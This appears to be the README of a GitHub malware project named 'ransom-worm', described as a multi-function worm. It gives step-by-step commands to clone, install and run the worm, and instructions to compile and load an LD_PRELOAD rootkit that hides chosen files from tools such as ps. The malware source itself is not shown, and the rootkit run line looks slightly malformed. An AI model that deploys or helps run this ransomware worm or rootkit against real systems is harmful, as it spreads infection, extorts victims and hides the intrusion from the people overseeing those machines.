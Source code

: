 # Malware Project

## A multi function worm

# Instructions

First clone the repository:

````bash
git clone https://github.com/blueh0rse/ransom-worm
````

Move to working directory:

````bash
cd ransom-worm
````

Install depedencies:

````bash
python3 -m pip install -r requirements.txt
````

Run code, at your own risks:

````bash
python3 main.py
````

# ROOTKIT
#Add in main.c the HIDING_FILE_NAME that u want to hide(this exemple can hide all the python file and secret.sh)  

How to compile :
````bash
gcc -fPIC -shared -o mainlib.so main.c -ldl
````
How to run: 

````bash
export LD_PRELOAD=/path/to/your/rootkit.so ps 
````